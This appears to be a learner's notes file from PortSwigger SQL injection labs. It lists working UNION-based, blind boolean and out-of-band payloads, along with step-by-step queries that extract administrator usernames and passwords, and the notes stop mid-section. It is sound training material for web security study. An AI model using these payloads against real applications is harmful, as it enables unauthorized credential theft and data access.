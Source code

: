# Portswigger lab Scripts with notes

1. What is SQL Injection?

--> Vulnerability that interferes SQL queries that application makes to a database. 
           Impact: View sensitive information, alter data and delete data.
           It bypasses SQL queries. Suppose a login page asks for username and password. At username you add admin'-- . The SQL query looks like SELECT * from users where username = 'admin' --, password = . -- comments out rest of the query and ' closes the string, logs in as admin. 


2. Types of SQL Injection?

a. In-band (Classic): When SQL payload reflects on the application. Easy to exploit. 

       i) Error-based: Forces database to generate error, giving attacker information.
                      Eg: www.evil.com/app.php?id=' . It gives output as eror in sql syntax with sql server version.
      
      ii) Union-based: UNION SQl operator to combine result of two queries into single result.
                     Eg: www.evi.com/app.php?id=' UNION SELECT username, password FROM users-- . It gives username and password.
      
b. Inferential (Blind): No transfer of data via web app. Only performs when there are certain codition. Takes Long to exploit.
     
        i) Boolean-based: Uses boolean condition to return different result depending whether query returns true or false result.
                          URL: www.evil.com/app.php?id=1. 
                          Payload #1(False): www.evil.com/app.php?id=1 and 1=2. Doesn't give product detail because false.
                          Payload #2(True): www.evil.com/app.php?id=1 and 1=1. Givs product detail because true.
                          Backend Query: select title ftom product where id=1 and 1=1
                          
       ii) Time-based: Delays the result for a specific time, indicating SQL query presence. Eg: If first character of admin hash passowrd is a',wait for 10 seconds. If it takes 10 seconds, it contains a has first password otherwise it doesnot.
      
c. Out-of-band:
         Using protocol to trigger SQL Injection. Results come to your system like burpcollab.  Eg: '; exec master..xp_dirtree '//burpcollaborator/a'-- 


3. How to find SQL Injection?

--> It depends on blackbox(little info given) and whitebox(source-code given)

       Blackbox: 

              1. Map the aplication: input vectors, endpoints, how app works, etc.
              2. Fuzzing: add SQl characters such as ' or " and look for errors, submit boolean condition, time delay query and out of band query to look for responses.

       Whitebox:

              1. Enable web server and database logging.
              2. Map the application: regex search in code that talk to database.
              3. Code review: Follow code path for input vectors.
              4. Tesst SQLi vulnerability.

********** ERROR BASED **********

***** STEP #1: Determine # of columns *****

 Way #1: UNION
     
      select ? from table1 UNION select NULL, NULL--
       --> error: incorrecet number of columns.
       
      select ? from table1 UNION select NULL, NULL, NULL--
       --> 200 ok: correct number of columns.
       
 Way #2: ORDER BY
 
        select a,b from table1 order by 2-- 
                               order by 2#
        
***** STEP #2: Determine data type of column *****

        select a, b, c from table1 UNION select 'a', NULL, NULL--
        select a, b, c from table1 UNION select NULL, 'a', NULL--
        select a, b, c from table1 UNION select NULL, NULL, 'a'--
         --> error: column is not type text
         --> no error: column is type text.

        for oracle: 'union select 'a', 'a' from dual -- 


***** STEP #3: Finding database version *****

     oracle: select banner from v$version
             select version from v$instance

     mysql and microsoft: select @@version

     postgresql: select version()

        for oracle: ' union select banner, null from v$version--
        for mysql and microsoft: 'UNION select @@version,'a'%23


***** STEP #4: Finding username and password *****

        union select username, password from users--

       ** if only one field works concatenate string based on database

         union select null, username || password from users --  > postgresql and oracle
          "     "       " , username + password from users -- > microsoft
          "      "      " , username  password from users -- > mysql
                             concat(username,password)

      Found username and password: Gifts' union select null, username || '~' || password from users--
            administrator~z5wp402vuidu2y59oaai


***** STEP #5: Finding Database Content *****

        oracle:	SELECT * FROM all_tables
                SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE' 

        non-oracle: SELECT * FROM information_schema.tables
                    SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

        1) * is a place holder for tables NAME. search For information_schema.tables on google to get table names  #(users_table)

               non-oracle:  'union select table_name, null from information_schema.tables --
               oracle: ' union select table_name,null from all_tables--
        
        2) It contains lists of database name. lets pick users_acinmi for non-oracle and users_roomix for oracle then  #(username_column,password_column)
              non-oracle: ' UNION SELECT column_name, null from information_schema.columns WHERE table_name = 'users_acinmi' --
                                     output: username_wuiqfp
                                             password_fhdiit 

                oracle: ' union select column_name,null from all_tab_columns where table_name='USERS_ROOIMX'--
                                     output: USERNAME_ICWHMD
                                             PASSWORD_DETRFJ                                 
 

        3) Output the username and password  #(administrator_table)

                non-oracle: ' UNION select username_wuiqfp, password_fhdiit from users_acinmi--
                                    output: administrator
	                                    9ro90x5y3ztmsv21nwm0

                oracle: ' union select USERNAME_ICWHMD,PASSWORD_DETRFJ from USERS_ROOIMX--
                                     output: administrator
	                                     x7e2jmfnqacfb1bxe3m0



********** BLIND SQL **********

*** Blind SQLI with conditional responses ***

1. Confirm that the paramter is vulnerable to blind SQLi

        cookie query:   select tracking-id from tracking-table where trackingId='23f23fdxqd'

                -> If tracking id exists -> query return value -> welcome back msg
                -> If tracking id doesn't exists -> query returns nothing -> no welcome msg

        select tracking-id from tracking-table where trackingId='23f23fdxqd' and 1=1--'
                -> TRUE -> WELCOME back msg

        select tracking-id from tracking-table where trackingId='23f23fdxqd' and 1=0--'
                -> FALSE -> no WELCOME back msg

2. Confirm that we have users table

        select tracking-id from tracking-table where trackingId='23f23fdxqd' and (select 'x' from users LIMIT 1) = 'x'--'
                -> TRUE -> users table exists in database

3. Confirm that username administrator exists users table

        select tracking-id from tracking-table where trackingId='23f23fdxqd' and (select username from users where username='administrator') = 'administrator'--'
                -> administrator user exists

4. Enumerate password of the administrator user

        select tracking-id from tracking-table where trackingId='23f23fdxqd' and (select username from users where username='administrator' and LENGTH (password)>1) = 'administrator'--' 
                -> Use burp to check how many length is there in the password. $1$. 20 returned false, so it contains 20 character.

        **** Using substring to find password. It checks one by one character ****

        select tracking-id from tracking-table where trackingId='23f23fdxqd' and (select substring(password,1,1) from users where username='administrator') = 'a'--'
                -> burp,(payload-type=bruteforcer): $a$. If 1st letter contains letter 'c' go to 2nd letter.
                -> burp payload(cluster-bomb): ' and (select substring(password,$1$,1) from users where username='administrator' and LENGTH (password)>1) = '$a$'--' 
                -> 1st type: number from 1 to 20. 2nd type: bruteforcer.



***** Blind SQLI with conditional errors *****

1. Confirm that the parameter is vulnerable

        ' || (select '') || '  > 200ok: non-oracle
        ' || (select '' from dual) || '  > 200ok: oracle

2. Confirm that the users table exists in the database